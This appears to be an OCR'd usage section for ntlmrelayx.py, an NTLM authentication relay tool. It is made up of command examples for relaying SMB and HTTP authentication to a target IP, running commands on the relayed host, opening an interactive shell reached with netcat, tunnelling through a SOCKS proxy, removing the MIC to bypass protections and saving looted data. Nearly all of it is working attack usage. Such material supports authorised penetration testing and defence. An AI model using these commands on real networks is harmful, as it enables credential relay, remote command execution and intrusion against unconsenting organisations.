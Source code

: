 ```
  --serve-image         Serve image file to trigger auth
  -ra                   Relay to all targets
```

## Usage Examples

### Basic SMB Relay
```bash
# Relay SMB authentication to single target
python3 ntlmrelayx.py -t 192.168.1.100 -smb2support

# Relay to multiple targets from file
python3 ntlmrelayx.py -tf targets.txt -smb2support

# Execute command on successful relay
python3 ntlmrelayx.py -t 192.168.1.100 -c "whoami" -smb2support
```

### HTTP to SMB Relay
```bash
# Start HTTP server and relay to SMB
python3 ntlmrelayx.py -t 192.168.1.100 -w -smb2support

# Use custom HTTP port
python3 ntlmrelayx.py -t 192.168.1.100 -w -port 8080 -smb2support

# Serve image to trigger authentication
python3 ntlmrelayx.py -t 192.168.1.100 -w --serve-image /path/to/image.jpg -smb2support
```

### Interactive Shell
```bash
# Get interactive shell on target
python3 ntlmrelayx.py -t 192.168.1.100 -i -smb2support

# Access shell via netcat
nc 127.0.0.1 11000
```

### SOCKS Proxy
```bash
# Establish SOCKS proxy
python3 ntlmrelayx.py -t 192.168.1.100 -socks -smb2support

# Use SOCKS proxy with proxychains
proxychains python3 smbclient.py target.domain.com
```

### Advanced Options
```bash
# Remove MIC to bypass some protections
python3 ntlmrelayx.py -t 192.168.1.100 --remove-mic -smb2support

# Enable debug mode
python3 ntlmrelayx.py -t 192.168.1.100 -debug -smb2support

# Loot directory for captured data
python3 ntlmrelayx.py -t 192.168.1.100 -l /tmp/loot -smb2support
```
